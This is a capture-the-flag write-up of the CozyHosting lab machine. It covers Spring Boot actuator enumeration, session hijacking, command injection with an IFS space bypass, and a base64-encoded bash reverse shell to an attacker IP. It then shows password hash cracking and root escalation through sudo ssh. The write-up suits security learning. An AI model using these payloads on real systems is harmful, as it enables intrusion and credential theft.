

# Overview

- Name: CozyHosting
- OS: Linux
- Difficulty: **<span style="color:green">Easy</span>**

# Enumeration

First, I ran `nmap` to find all services that are open on the machine.

```bash
❯ nmap -p- -sV -sC -oA nmap/tcp --min-rate=1000 -v 10.10.11.230
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home
|_http-server-header: nginx/1.18.0 (Ubuntu)
...
```

After going to the webpage and adding `cozyhosting.htb` to my `/etc/hosts` file, we find this nice webpage as shown in __Figure 1__. Opening the login page, the site ask for a username and password. I tried some default ones like `admin:admin`, but without success.


> _Figure 1_: **Home Page.**


> _Figure 2_: **Login page.**

With no more informations, I started **brute forcing** the webpage to find files and directories with `ffuf`. 
```
❯ ffuf -w $smallw -u http://cozyhosting.htb/FUZZ
index                   [Status: 200]
admin                   [Status: 401]
login                   [Status: 200]
logout                  [Status: 204]
error                   [Status: 500]
```
:::information
The bash `$smallw` thing is a variable to `/usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt`. I have all lot of wordlists on my `.zshrc` file to made this `ffuf` commands more easy to read and write. 
:::
The most interesting one is the `/admin`, but it just gives me the **Unauthorized** status code and redirects to `/login`. Another one that caught my attention is `/error`, which returns the folowing error message:


> _Figure 3_: **Whitelabel error.**

# Foothold

I searched the error message on _Google_ and discovered that it is a common error on **Spring Boot**.


> _Figure 4_: **Spring Boot error.**

With that in mind, I ran `ffuf` again, but this time with a proper wordlist for **Spring_Boot**. We found the following endpoits, and by making a **GET** request to `/actuator`, the server send back **all the endpoints** under `/actuator`.
```bash
❯ ffuf -u http://cozyhosting.htb/FUZZ -w $seclist/Discovery/Web-Content/spring-boot.txt -o fuzz
❯ cat fuzz | jq '.results[].url'
"http://cozyhosting.htb/actuator/env/home"
"http://cozyhosting.htb/actuator/env"
"http://cozyhosting.htb/actuator"
"http://cozyhosting.htb/actuator/env/path"
"http://cozyhosting.htb/actuator/env/lang"
"http://cozyhosting.htb/actuator/health"
"http://cozyhosting.htb/actuator/mappings"
"http://cozyhosting.htb/actuator/sessions"
"http://cozyhosting.htb/actuator/beans"

❯ curl http://cozyhosting.htb/actuator | jq '._links[].href'
"http://localhost:8080/actuator"
"http://localhost:8080/actuator/sessions"
"http://localhost:8080/actuator/beans"
"http://localhost:8080/actuator/health"
"http://localhost:8080/actuator/health/{*path}"
"http://localhost:8080/actuator/env"
"http://localhost:8080/actuator/env/{toMatch}"
"http://localhost:8080/actuator/mappings"
```
> **What Is an Actuator?** </br>
> In essence, Actuator brings production-ready features to our application.
Monitoring our app, gathering metrics, and understanding traffic or the state of our database becomes trivial with this dependency.

There are a lot of endpoints to check, so let's start with the more interesting ones.</br> 
The `/actuator/env` or `/actuator/env/*` seems to return return some envirement variables, but all values is censored to `******`. </br>
The `/actuator/mappings` returns a json with **all endpoints** of the website. 

```bash
❯ curl http://cozyhosting.htb/actuator/mappings | jq '.contexts[].mappings[].dispatcherServlet[].predicate'

"{GET [/actuator/beans], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"
"{GET [/actuator/health/**], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"
"{GET [/actuator/mappings], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"
"{GET [/actuator], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"
"{GET [/actuator/env], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"
"{GET [/actuator/env/{toMatch}], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"
"{GET [/actuator/sessions], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"
"{GET [/actuator/health], produces [application/vnd.spring-boot.actuator.v3+json || application/vnd.spring-boot.actuator.v2+json || application/json]}"
"{ [/error], produces [text/html]}"
"{POST [/executessh]}"
"{ [/error]}"
"/admin"
"/addhost"
"/index"
"/login"
"/webjars/**"
"/**"
```

The `POST` to `/executessh` caught my attention, but when I tried sending the **request**, it **returned** the http code _400 Bad Request_. Maybe it is expecting parameters? So I tried to **brute force** it again with `ffuf` but **don't find anything**.

`❯ ffuf -u http://cozyhosting.htb/executessh -X POST -w $seclist/Discovery/Web-Content/api/actions.txt -mc all -d 'FUZZ=sleep 5' -ft '<900'`

The `GET` to `/actuator/sessions` actually give us some cookie values for the user `kanderson`. 


> _Figure 5_: **Kanderson session.**

__Figure 6__ Demostrated a __match and replace__ rule on **Caido proxy** to change my cookies values. Now if I go to `/admin` it will no longer redirect me to the login page.  


> _Figure 6_: **Caido match and replace rule.**


> _Figure 7_: **Admin panel.**

## Command Injection

I entered some normal inputs for **Hostname** and **Username** and still got the following error, as shown in _Figure 8__.


> _Figure 8_: **Error: verification failed.**
I suspected it was running a bash command like `ssh $USER@$HOSTNAME` in the backend. So I need to find out what is the protections they are using and bypassing it to the a reverse shell.

The request is the `POST` to `/executessh` that I saw before but don't find anything while brute forcing it. Now I can see that the request needed a `host` and `username` parameters to function normally. When I tried sending this basic command injection payload(`;sleep 5;`) in the `host` parameter, the server returned `Invalid hostname!`, as shown in __Figure 9__. 


> _Figure 9_: **Request and response of `/executessh`.**

However, when I send the same payload on the username parameter, it returned the error message '__Username can't contain whitespaces!__'. I can use the _BASH_ variable **IFS** to bypass this whitespace restriction. Sending the payload `;sleep${IFS}5` The server actually wait 5 seconds to return a response.
>  “**IFS**” (Internal Field Separator) is a special variable that defines the character or characters used to **separate** a pattern into tokens for some operations.


> _Figure 10_: **Server waiting 5 seconds to come back.**

Knowing that I send following payload encoded in base64 to get a reverse shell.

```bash
echo "bash  -i >& /dev/tcp/10.10.16.16/443  0>&1  " | base64
PAYLOAD=";echo${IFS}YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTYvNDQzICAwPiYxICAK|base64${IFS}-d|bash;"
```


> _Figure 11_: **Request with the payload.**

![Revshell_back]{./revshell.png}
> _Figure 12_: **Getting the reverse shell as 'app' user.**

## Reading .jar file

I got a shell as the user `app` on the folder `/app` and inside this folder. I have the file named _'cloudhosting-0.0.1.jar'_ this is probally the source code that is running on the webpage, to be sure about that I started enumerate all the ports open.

```bash
# List the open ports on the machine to identify the webserver
$ ss -ltnp
State  Recv-Q Send-Q      Local Address:Port Peer Address:PortProcess
LISTEN 0      511               0.0.0.0:80        0.0.0.0:*                                   
LISTEN 0      4096        127.0.0.53%lo:53        0.0.0.0:*                                   
LISTEN 0      128               0.0.0.0:22        0.0.0.0:*                                   
LISTEN 0      244             127.0.0.1:5432      0.0.0.0:*                                   
LISTEN 0      100    [::ffff:127.0.0.1]:8080            *:*    users:(("java",pid=1063,fd=19))
LISTEN 0      128                  [::]:22           [::]:*                                   
LISTEN 0      511               0.0.0.0:80        0.0.0.0:*          
LISTEN 0      4096        127.0.0.53%lo:53        0.0.0.0:*          
LISTEN 0      128               0.0.0.0:22        0.0.0.0:*          
LISTEN 0      244             127.0.0.1:5432      0.0.0.0:*          
LISTEN 0      100    [::ffff:127.0.0.1]:8080            *:*          
LISTEN 0      128                  [::]:22           [::]:*

# Search for the service that is running on port 8080
$ ps 1063
PID TTY      STAT   TIME COMMAND
1063 ?        Ssl    2:02 /usr/bin/java -jar cloudhosting-0.0.1.jar

# Search for services that use port 8080
$ cd /etc
$ grep -r '8080' 2>/dev/null
nginx/sites-available/default:		proxy_pass http://localhost:8080;
services:http-alt	8080/tcp	webcache	# WWW caching service
ssl/openssl.cnf:# proxy = # set this as far as needed, e.g., http://192.168.1.1:8080

$ cat nginx/sites-available/default
server {
	listen 80;
	return 301 http://cozyhosting.htb;
}
server {
	listen 80;
	server_name cozyhosting.htb;
	location / {
		proxy_pass http://localhost:8080;
	}
}
```
The port `8080` is actually running that `.jar` file, confirming it is really the file running the webserver. So let's unzip it and search for some database credentials inside.

```bash
mkdir /tmp/src
cp /app/cloudhosting-0.0.1.jar /tmp/src
unzip cloudhosting-0.0.1.jar
grep -ri 'password'
```
> **JAR files** are archive files that include a Java-specific manifest file. They are built on the **ZIP format** and typically have a .jar file extension.


> _Figure 13_: **Return of grep command.**

With this command, we can read the contents of the file `BOOT-INF/classes/application.properties` and find the PostgresSQL credentials.


> _Figure 14_: **Database credentials.**

## PostGres database

After trying the password to log in as the user `josh` and it didn't work. I got back to the port enumeration part, the port `5432` is **open**. This is the **default port** for postgres database. The utility `psql` lets us interact with the PostgresSQL database, so I used it to connect and extract the hashes.

```sql
# List all schemas
\l

# Select schema 'cozyhosting'
\c cozyhosting

# List all tables in the schema
\dt 

SELECT * FROM users;
```

> _Figure 15_: **Hashes inside Database.**

Copying only the hashes and putting them in a file named `hashes.txt`, I ran the command `hashcat hashes.txt $rockyou -m 3200`, which gave me a clear text password after some time. 


> _Figure 16_: **Hashcat command.**

With the password we can just `su - josh` and get a shell as the user `josh`.

# Privilege Escalation

I ran the command `sudo -l` to identify if we could run any commands as root. It returns that we can use `ssh` as _root_ user. Searching on [gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo), I find that we can use the ProxyCommand option to the a shell as root.


> _Figure 17_: **Getting root.**
